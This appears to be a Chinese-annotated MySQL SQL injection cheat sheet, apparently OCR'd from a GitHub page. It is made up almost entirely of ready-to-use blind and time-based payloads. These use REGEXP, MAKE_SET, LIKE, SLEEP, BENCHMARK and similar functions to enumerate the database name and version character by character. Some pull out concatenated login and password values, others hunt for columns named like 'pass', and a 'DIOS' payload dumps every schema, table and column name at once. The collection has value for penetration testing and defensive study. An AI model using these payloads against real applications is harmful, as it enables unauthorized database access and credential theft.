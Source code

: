  ###### REGEXP
	' OR (SELECT (CASE WHEN EXISTS(SELECT name FROM items WHERE name REGEXP "^a.*") THEN SLEEP(3) ELSE 1 END)); -- -
	工作流程
	SELECT name,price FROM items WHERE name = '' OR (SELECT (CASE WHEN EXISTS(SELECT name FROM items WHERE name REGEXP "^a.*") THEN SLEEP(3) ELSE 1 END)); -- -';

	条件语句
	返回正常
	2100935' OR IF(MID(@@version,1,1)='5',sleep(1),1)='2
	Response:
	HTTP/1.1 500 Internal Server Error
	返回错误
	2100935' OR IF(MID(@@version,1,1)='4',sleep(1),1)='2
	Response:
	HTTP/1.1 200 OK

 ###### MAKE_SET
	AND MAKE_SET(YOLO<(SELECT(length(version()))),1)
	AND MAKE_SET(YOLO<ascii(substring(version(),POS,1)),1)
	AND MAKE_SET(YOLO<(SELECT(length(concat(login,password)))),1)
	AND MAKE_SET(YOLO<ascii(substring(concat(login,password),POS,1)),1)

 ###### LIKE
  	SELECT cust_code FROM customer WHERE cust_name LIKE 'k__l';
 ##### 基于时间注入
  	+BENCHMARK(40000000,SHA1(1337))+
	'%2Bbenchmark(3200,SHA1(1))%2B'
	AND [RANDNUM]=BENCHMARK([SLEEPTIME]000000,MD5('[RANDSTR]'))  //SHA1
	RLIKE SLEEP([SLEEPTIME])
	OR ELT([RANDNUM]=[RANDNUM],SLEEP([SLEEPTIME]))

	SLEEP
	1 and (select sleep(10) from dual where database() like '%')#
	1 and (select sleep(10) from dual where database() like '___')# 
	1 and (select sleep(10) from dual where database() like '____')#
	1 and (select sleep(10) from dual where database() like '_____')#
	1 and (select sleep(10) from dual where database() like 'a____')#
	...
	1 and (select sleep(10) from dual where database() like 's____')#
	1 and (select sleep(10) from dual where database() like 'sa___')#
	...
	1 and (select sleep(10) from dual where database() like 'sw___')#
	1 and (select sleep(10) from dual where database() like 'swa__')#
	1 and (select sleep(10) from dual where database() like 'swb__')#
	1 and (select sleep(10) from dual where database() like 'swi__')#
	...
	1 and (select sleep(10) from dual where (select table_name from information_schema.columns where table_schema=database() and column_name like '%pass%' limit 0,1) like '%')#

	条件语句
	?id=1 AND IF(ASCII(SUBSTRING((SELECT USER()),1,1)))>=100,1, BENCHMARK(2000000,MD5(NOW()))) --
	?id=1 AND IF(ASCII(SUBSTRING((SELECT USER()), 1, 1)))>=100, 1, SLEEP(3)) --
	?id=1 OR IF(MID(@@version,1,1)='5',sleep(1),1)='2
 ##### 一次性转储数据
  	MYSQL DIOS
	(select (@) from (select(@:=0x00),(select (@) from (information_schema.columns) where (table_schema>=@) and (@)in (@:=concat(@,0x0D,0x0A,' [ ',table_schema,' ] > ',table_name,' > ',column_name,0x7C))))a)#
